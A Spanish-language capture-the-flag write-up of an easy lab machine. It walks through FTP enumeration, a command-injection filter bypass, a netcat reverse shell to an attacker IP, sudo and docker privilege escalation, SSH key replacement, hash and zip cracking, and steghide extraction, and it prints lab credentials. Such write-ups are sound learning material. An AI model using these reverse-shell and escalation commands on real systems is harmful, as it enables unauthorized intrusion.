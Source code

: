 
# Descripción

Easy level CTF.  Capture the flags and have fun!

# Reconocimiento

![[Pasted image 20240402181021.png]]

Realizando un escaneo de puertos, podemos observar un servicio ftp, ssh y servidor http en el puerto 80. Comenzare comprobando la web y sus recursos.

![[Pasted image 20240402181258.png]]

Volviendo al escaneo podíamos ver que es posible entrar en el ftp con las credenciales anonymous:anonymous 

![[Pasted image 20240402183756.png]]

Veremos dentro del directorio un archivo llamado note.txt y lo descargaremos

![[Pasted image 20240402184007.png]]

![[Pasted image 20240402184202.png]]

Vemos un usuario potencial llamado apaar, intentaremos usar fuzzing en la web para encontrar directorios

![[Pasted image 20240402185240.png]]

Encontramos el directorio secret y podemos ver que tenemos permiso de ejecución de comandos, desde el usuario www-data

![[Pasted image 20240402185337.png]]

ahora veremos los privilegios a nivel de sistema con sudo -l , podemos ver que hay un scripte en bash llamado .helpline.sh y no requiere autenticación para ejecutar, probaremos ejecutarlo

![[Pasted image 20240402185625.png]]

![[Pasted image 20240402185841.png]]

No se puede apreciar nada destacable en el codigo fuente la función y no permite utilizar el comando ls, comentando el caracter de la siguiente forma l\\s podremos ser capaz de bypassear el filtro, he utilizado un bypass en la inyección de comandos sacadas de este repositorio:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

![[Pasted image 20240402190351.png]]

Intentaremos hacer una reverse shell y ponernos en escucha con el netcat desde la maquina victima en el puerto 

Haciendo uso del siguiente script sacado de revshells, y pasando el filtro de comandos, utilizaremos `r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.74.176 4444 >/tmp/f
para establecer una conexión entre la maquina victima y la atacante por el puerto 4444

![[Pasted image 20240402190715.png]]

![[Pasted image 20240402190737.png]]

Obteniendo de esta manera acceso a la maquina victima dentro, haremos un tratamiento de la tty y ejecutaremos el script helpline desde el usuario apaar

`sudo -u apaar /home/apaar/.helpline.sh

Nos preguntara con quieren queremos hablar, da igual ese input, lo importante es que nos deja añadir un mensaje, dentro del mensaje añadiremos `/bin/bash` para hacer spawn de un shell desde el usuario apaar

![[Pasted image 20240402192214.png]]

Ahora somos capaces de ver la bandera, dentro de directorio home, tambien podemos ver un directorio ssh, con las claves del usuario apaar

![[Pasted image 20240402192505.png]]

Deberíamos poder cambiar nuestra credenciales ssh por las del usuario apaar para poder ingresar desde ssh, para eso generaremos nuestro propio par de claves que posteriormente utilizaremos para ingresar desde nuestra maquina atacante


Utilizaremos `ssh-keygen -t rsa` para generar un par de claves, y copiaremos la clave publica en el lugar de la autorizhed key para ingresar via ssh

![[Pasted image 20240402194427.png]]
![[Pasted image 20240402194608.png]]


Cambiaremos el rsa publico de apaar por el nuestro para logar una mejor conexión utilizando el comando echo

![[Pasted image 20240402194701.png]]

Mediante el comando `ssh -i id_rsa apaar@10.10.115.208` nos conectaremos usando las credenciales

Le daremos permisos chmod 400 al id_rsa y lograremos entrar al usuario apaar

![[Pasted image 20240402194945.png]]

Primero veamos las conexiones e interfaces de red de la maquina 

![[Pasted image 20240402195331.png]]

Podemos ver los puertos abiertos en local host 3306 de un servidor sql y el puerto 9001.

Indagando sobre el puerto 9001 podemos ver que efectivamente es un http, y un panel de autenticación con un llamado curl 

![[Pasted image 20240402195617.png]]

Por lo que posiblemente haya que desviar el trafico de la maquina victima a la nuestra para poder acceder al panel de autenticación, aunque no tenemos contraseñas, indaguemos dentro de la web para ver si hay un mal uso de reiteración de contraseñas o algo similar, veremos dentro del directorio /var/www/

![[Pasted image 20240402195119.png]]

Dentro del archivo index.php podemos ver como se hace una conexión directa a la base de datos con las credenciales en texto plano

![[Pasted image 20240402200000.png]]

Usuario: root
Contraseña: !@m+her00+@db

Realizaremos una conexión local a la base de datos para verificar si las credenciales son validas con el usuario root y efectivamente comprobamos que son validas, veamos las bases de datos y sus tablas en busca de usuarios o datos relevantes 

![[Pasted image 20240402200524.png]]

Buscamos dentro de las bases de datos, encontramos webportal, y dentro un tabla llamada users, podriamos ver si este usuario existe a nive de sistema y si a reutilizado las contraseña. 

![[Pasted image 20240402200716.png]]
1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd 
2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649

copiamos los hashes, y verificaremos en crackstation, o podríamos crackearlos, en crackstation obtenemos la contraseña de anurodh

![[Pasted image 20240402200939.png]]
masterpassword

y la contraseña de apaar 

![[Pasted image 20240402201015.png]]
dontaskdonttell

veremos los usuarios que existen a nivel de sistema, intentaremos conectarnos con las credenciales que nos han dado.

![[Pasted image 20240402201127.png]]

Haremos un portfortwarding con ssh, a la web que vimos previamente con curl de la siguiente forma `ssh -L 9001:127.0.0.1:9001 -i id_rsa apaar@10.10.115.208` y conseguimos el portforward accendiendo a localhost:9001

![[Pasted image 20240402202043.png]]

Ninguna credencial anterior funciona, podríamos hacer un ataque de fuerza bruta, o intentar sqli, pero nada da resultados, encontramos una pagina llamada hacker.php

![[Pasted image 20240402202456.png]]

![[Pasted image 20240402202535.png]]

Vemos que lo único que ofrece esta pagina es una imagen, intentemos descargar la imagen en nuestro kali

![[Pasted image 20240402202819.png]]

Intente probar si era capaz de ver metadata o algo similar y utilizando steghide fui capaz de identificar un archivo anexado a la imagen llamado backup.zip con un archivo llamado source_code.php

`steghide extract -sf hacker-with-laptop_23-2147985341.jpg`
![[Pasted image 20240402203258.png]]

Intentaremos crackear la contraseña con zip2john, y ver si es posible encontrar las credenciales correctas 
zip2john backup.zip > hash

![[Pasted image 20240402203436.png]]
![[Pasted image 20240402203753.png]]

Encontramos la contraseña para poder descomprimir el archivo, y veamos que tiene source_code.php

![[Pasted image 20240402203906.png]]

Volvemos a encontrar contraseñas, en base 64, convertiremos esto en string para poder verla en texto plano 

![[Pasted image 20240402205001.png]]

Ahora intentaremos conectarnos con el usuario Anurodh, utlizando las credenciales !d0ntKn0wmYp@ssw0rd

![[Pasted image 20240402204315.png]]

y efectivamente estamos dentro del usuario, podemos observar que tiene permisos 999 dentro de un docker, en una busquead por GTFObins

![[Pasted image 20240402204546.png]]

![[Pasted image 20240402204700.png]]

y obtenemos la bandera de root

![[Pasted image 20240402204830.png]]